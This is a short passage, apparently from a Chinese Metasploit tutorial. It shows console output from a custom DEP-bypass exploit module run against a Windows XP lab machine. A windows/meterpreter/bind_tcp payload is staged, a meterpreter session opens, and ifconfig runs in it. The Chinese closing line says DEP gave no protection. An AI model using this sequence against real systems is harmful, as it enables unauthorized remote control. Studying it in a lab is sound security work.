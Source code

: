 ```

Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     192.168.109.141  no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows XP


msf exploit(windows/masteringmetasploit/dep_attack_by_binghe) > exploit

[*] Started bind TCP handler against 192.168.109.141:4444
[*] Sending stage (179779 bytes) to 192.168.109.141

meterpreter > ifconfig

Interface  1
============
Name         : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1520
IPv4 Address : 127.0.0.1


Interface 65539
============
Name         : VMware Accelerated AMD PCNet Adapter
Hardware MAC : 00:0c:29:5d:8e:d4
MTU          : 1500
IPv4 Address : 192.168.109.141
IPv4 Netmask : 255.255.255.0


Interface 65540
============
Name         : Bluetooth �)%
Hardware MAC : 3c:a0:67:1a:fe:b4
MTU          : 1500

meterpreter > 
```

成功拿到Meterpreter的Shell。所以，设置系统的DEP保护，对我们来说并没有什么卵用。
